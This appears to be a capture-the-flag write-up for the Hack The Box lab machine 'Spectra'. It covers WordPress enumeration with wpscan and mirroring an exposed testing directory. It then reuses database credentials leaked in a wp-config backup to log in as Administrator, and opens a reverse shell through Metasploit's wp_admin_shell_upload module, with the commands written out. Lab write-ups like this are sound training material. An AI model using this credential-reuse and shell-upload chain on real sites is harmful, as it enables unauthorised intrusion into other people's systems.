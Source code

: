 We see multiple services running, perfect. Let's start by taking a peek at port 80. When we hit it, we see a issue tracking page that looks incomplete:

{{< figure src="__GHOST_URL__/content/images/2021/05/image-17.png" >}}

The source does show us a hostname of `spectra.htb`, so we'll add that to our hosts list as well. Navigating to the `testing` page, givers us a database connection error. Navigating to the `main` page, lands us on a `Wordpress site`. The first thing I do when I see a `WordPress` site is point `wpscan` at it. Sometimes there's nothing, sometimes there's a everything!

Command:
`wpscan --url 'http://spectra.htb/main' --api-token <TOKEN HERE>`

{{< figure src="__GHOST_URL__/content/images/2021/05/image-18.png" >}}

There does seem to be some vulnerabilities here. Let's keep these in mind as we continue to enumerate the target. We browse through all the pages / comments onn the `WordPress` portion, let's turn our attention to the `testing` page. We try some different ports but no dice. However, simply taking it back one level to `spectra.htb/testing` gives us an index listing.

{{< figure src="__GHOST_URL__/content/images/2021/05/image-19.png" >}}

The first thing we see here is the `wp-config.php.save`, `wp-config` and  `wp-settings.php`. Let's get all of these so we can take a look at them.

Command:
`wget 'http://spectra.htb/testing/' -r --no-parent `

This will download the entire site with directory structure intacked. Now we can start looking through the files for a foothold. 

The `wp-config.php.save` shows us some `mysql` credentials!

{{< figure src="__GHOST_URL__/content/images/2021/05/image-20.png" >}}

Now that we have a set of credentials, what are the chances they work in the WordPress login area? The combo of `devtest`:`devteam01` didn't work. If you've spent any time working with WordPress you know that the default account is called `Administrator` unless you change it during your installation processes. Let's try that. Sure enough, it works! We are in! 

Now, how do we leverage this connection to get a shell? The previously found vulnerabilities won't help us in this case. As an administrator, we are able to create / modify pages. We can even modify them at the `PHP` level. With this ability, we can upload our own `reverse shell` and execute it. Now you could either do this by editing some of the `php` files and browsing to it or we can leverage an older `Metasploit` module to do it for us.

Command:
`msfdb run`
`msf6> use exploit/unix/webapp/wp_admin_shell_upload`
`msf6> set lhost tun0`
`msf6> set rhost 10.10.10.229`
`msf6> set lport 9090`
`msf6> set username administrator`
`msf6> set password devteam01`
`msf6> set targeturi /main`
`msf6> run`

{{< figure src="__GHOST_URL__/content/images/2021/05/spectra_shell.gif" >}}
